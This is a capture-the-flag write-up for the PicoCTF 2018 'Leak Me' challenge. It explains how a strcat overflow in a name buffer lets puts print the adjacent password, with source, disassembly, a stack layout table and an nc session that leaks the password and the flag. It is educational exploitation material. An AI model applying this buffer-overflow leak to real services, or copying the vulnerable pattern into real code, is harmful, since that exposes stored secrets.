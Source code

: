 ```yaml
---
title:  PicoCTF 2018 - Leak Me
description: It's still a buffer overflow, but it won't crash and it won't execute code. How will you trick it into revealing its secrets?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Leak Me

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Spotting this one is trickier. I originally solved this challenge several months ago, but while putting this guide together I attempted to look ahead to this problem and "spot the bug" (with only access to the source code on my phone). I'm ashamed to admit that it was almost an hour of me staring at the thing before I had a good idea what the problem was and how it could be exploited. How long does it take you?

```c
char password[64]; // &[ebp-0x54]
char name[256]; // &[ebp-0x154]
char password_input[64]; // &[ebp-0x194]

memset(password, 0, sizeof(password));
memset(name, 0, sizeof(name));
memset(password_input, 0, sizeof(password_input));

printf("What is your name?\n");

fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}

strcat(name, ",\nPlease Enter the Password.");

file = fopen("password.txt", "r");
if (file == NULL) {
  printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
  exit(0);
}

fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);

fgets(password_input, sizeof(password_input), stdin);
password_input[sizeof(password_input)] = '\x00';

if (!strcmp(password_input, password)) {
  flag();
}
else {
  printf("Incorrect Password!\n");
}
```

Let's go over the steps:

1. Memory for `password`, `name`, and `password_input` is allocated and initialized on the stack.
2. You are prompted for your name (saved in `name`)
3. The file "password.txt" is opened, and read into the `password` variable
4. You are prompted for a password (saved in `password_input`)
5. If your password (`password_input`) matches the password in the file (`password`), then the flag is printed.

First off, we notice that the prompts for `name` and `password` both use `fgets()`, which is considered safe. `fgets` will read up to `size-1` bytes (or the first newline), and will always add a tailing null byte. There is also a call to `printf`, which could be used unsafely, but is fine in this case. Similarly, there are no problems with the calls to `strchr`, `fopen`, `puts`, or `strcmp` in this program.

The conclusion we reach is that the only thing it could be is the call to `strcat` (which is used to concatenate two strings together into one string, using the underlying memory of the first string).

```c
fgets(name, sizeof(name), stdin); // read up to size-1 bytes
// ...
strcat(name, ",\nPlease Enter the Password."); // add 28 characters + null to end of name
// ...
fgets(password, sizeof(password), file); // read the password into password
// ...
printf("Hello ");
puts(name);
```

## Strategy

The strategy, as the name of the challenge suggests, is to "leak" the password before we are required to enter it. We can do this because of the exact memory layout of the stack (we'll go over it in a minute, but it's important to note that this layout is specific to this version of compiler, in general the order of `password`, `name` and `password_input` on the stack isn't well specified). We can also do this because `puts` will continue to output chars until it hits the first null, and knows nothing about the size of memory block associated with `name`.

*If you know what you're doing already, you can attempt the problem by connecting to 2018shell.picoctf.com on port 38315 right now.*

## Background Info

Just like [last time]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}), let's peak into the assembly and see what memory layout the compiler chose for our stack variables using `objdump -M intel -S ./auth`:

```nasm
sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password)
push   0x0
lea    eax,[ebp-0x54] ; &password
push   eax
call   8048530 <memset@plt> ; memset(password, 0, sizeof(password));
add    esp,0x10

sub    esp,0x4 ; align
push   0x100 ; 0x100 = 256 = sizeof(name)
push   0x0
lea    eax,[ebp-0x154] ; &name
push   eax
call   8048530 <memset@plt> ; memset(name, 0, sizeof(name));
add    esp,0x10

sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password_input)
push   0x0
lea    eax,[ebp-0x194] ; &password_input
push   eax
call   8048530 <memset@plt> ; memset(password_input, 0, sizeof(password_input));
add    esp,0x10
```

> **NOTE**: Take a second and observe that the arguments to `memset` are pushed on the stack in the "reverse" order. So, `sizeof(password)` is pushed first, then `0`, then the address of `password`. This may seem odd, but if you consider how the stack works, it means that `&password` is actually first in memory, followed by `0`, and then `sizeof(password)`, which is the order we expect. **Keep this in mind for later challenges**.

Therefor the memory layout for the local variables of our function looks something like this:

| lower addresses | &rArr; | &rArr; | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | :---: | :---: | --- |
| `[esp]` | &lt; temp &gt; | `[ebp-0x194]` | `[ebp-0x154]` | `[ebp-0x54]` | &lt; other &gt; | `[ebp]` |
| | | `password_input`<br/>`[64]` | `name`<br/>`[256]` | `password`<br/>`[64]` | | |

Basically, the `password` variable directly follows the `name` variable in memory. If the string in `name` is long enough to spill into the memory for `password`, then when we read from "password.txt" we will actually write "into" the name string, and the password itself will be written to stdout when `puts(name)` is called.

## Exploitation

How long should our name be? Anything long enough should work, but it'll be easier to read if there is a clear delimiter. If the name is exactly 228 bytes (excluding newline), then appending 28 bytes will completely fill the `name` buffer, and the tailing null byte will end up as the first byte of the `password` variable. That byte will then be overwritten when the `password` is loaded. When the `name` string is printed out, the password will be all the characters following the `'.'` at the end of the prompt.

Here's 228 "U"s for you to copy-paste, as generated by `python3 -c 'print("U"*228)'`
```
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```

**NOTE**: this challenge requires to connect to a specific port on the server. To do this, you can install the netcat package on most linux distros and on windows. You could also connect to the port using `pwntools` or similar. `netcat` is already installed on the shell server.

```
$ nc 2018shell.picoctf.com 38315
What is your name?
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Hello UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_f85406

a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{===REDACTED===}
```
{:.contains-term}

When prompted, enter 228 characters and then press enter. It will then reply "Hello <228 chars>, Please Enter the Password.`<password>`" where the actual password will be printed out after the `'.'`. You then copy-paste the password and hit enter, at which point it will print the flag for you. In my case, the password was "a_reAllY_s3cuRe_p4s$word_f85406".

Now that you've solved **Leak Me**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.